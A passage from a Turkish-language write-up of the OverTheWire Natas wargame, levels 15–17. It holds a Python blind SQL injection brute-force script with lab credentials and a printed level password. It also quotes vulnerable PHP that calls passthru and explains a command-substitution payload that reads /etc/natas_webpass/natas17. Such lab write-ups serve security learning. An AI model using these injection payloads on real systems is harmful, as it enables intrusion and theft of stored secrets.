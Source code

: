 ```python
        filtered +=  char  ## kullanıcı mevcutsa karakteri ekler.
        print(filtered)

for i in range(0,32):  # password 32 haneli
    for char in filtered:  #bulunan karakterlerde dolaş. bruteforce saldırısını kolaylaştırır.
        Data = {'username' : 'natas16" AND password LIKE "' + passwd + char + '%" #'}
        r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
        if 'exists' in r.text : # şifrenin bir sonraki henesini bulur.
            passwd += char
            print(passwd)
            break
```

Bu script için requests modülünü kullandım. İşte natas16 şifresi:

```text
natas16: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

## Level 16 -> Level 17

Çalıştırılan bash kabuğuna giren girdi güvenlik filtresinden geçiyor. Bu yüzden bir çok meta karakteri kullanamıyoruz.

```php
<?
    $key = "";

    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }

    if($key != "") {
        if(preg_match('/[;|&`\'"]/',$key)) {
            print "Input contains an illegal character!";
        } else {
            passthru("grep -i \"$key\" dictionary.txt");
        }
    }
?>
```

Bu soru için subshell den yararlanabiliriz. $() gibi bir yapısı var. Bir önceki sevideki mantık ile aynı. Eğer `/etc/natas_webpass/natas17` dosyasındaki karakterleri sırayla bulabiliriz. Ve bu karakterleri bruteforce için kullanabiliriz.

`doomed$(grep a /etc/natas_webpass/natas17)` şeklinde bir girdi ile karakterleri bulabiliriz. `$()` içindeki komut bir çıktı üretir ve bu çıktıyı komuta ekler. Eğer aradığımız karakter natas17 dosyasında var ise bunu 'doomed' in sonuna ekler. Yani eğer bir şey bulursa şifreyi 'doomed!' in sonuna ekleyecek ve php kodundaki `grep` bir sonuç döndürmeyedek. bu sayede biz bir karakter natas17 dosyasında var mı yok mu anlayacağız. Eğer varsa bir sonuç döndürmeyecek, eğer yoksa döndürecek.

Bruteforce saldırısı için python scripti yazabiliriz. Bu script için requests modülünü kullandım. Aşağıdaki python kodu 2 aşamadan oluşuyor:


[1]: (http://natas5.natas.labs.overthewire.org)
[2]: (http://natas6.natas.labs.overthewire.org/includes/secret.inc)
[3]: (http://bilgisayarkavramlari.sadievrenseker.com/2009/04/20/yahut-sifrelemesi-xor-encryption/)
[4]: (http://www.wiki-zero.co/index.php?q=aHR0cHM6Ly9lbi53aWtpcGVkaWEub3JnL3dpa2kvS25vd24tcGxhaW50ZXh0X2F0dGFjaw)
[5]: https://stackoverflow.com/questions/18357095/how-to-bypass-the-exif-imagetype-function-to-upload-php-code